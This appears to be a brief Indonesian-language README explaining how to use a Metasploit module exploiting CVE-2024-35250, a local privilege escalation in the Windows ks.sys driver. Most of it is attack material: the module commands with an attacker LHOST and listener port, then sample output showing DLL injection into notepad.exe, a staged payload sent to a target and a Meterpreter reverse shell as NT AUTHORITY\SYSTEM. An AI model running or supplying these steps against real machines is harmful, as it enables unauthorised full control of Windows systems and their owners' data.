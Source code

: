 # cve_2024_35250_ks_driver

Driver `ks.sys` pada Windows adalah salah satu komponen inti dari Kernel Streaming dan secara default terinstal di semua sistem. Terdapat sebuah kerentanan `Local Privilege Escalation` (`LPE`) dalam driver ini yang dapat dieksploitasi pada berbagai versi `Windows 10`, `Windows 11`, dan `Windows Server 2022` yang terbaru.

## Penulis
- AngelBoy
- varwara
- jheysel-r7

## Platform
- `Windows`
  
## Arsitektur
- `x64`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/cve_2024_35250_ks_driver
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Windows Build Number = 10.0.22000.0
[+] The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows 11 version 21H2
[*] Launching notepad to host the exploit...
[*] The notepad path is: C:\Windows\System32\notepad.exe
[*] The notepad pid is: 6648
[*] Reflectively injecting the DLL into 6648...
[*] Sending stage (203846 bytes) to 192.168.1.55
[*] Meterpreter session 11 opened (192.168.1.11:4444 -> 192.168.1.55:49785) at 2025-05-17 21:42:51 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/cve_2024_35250_ks_driver/)
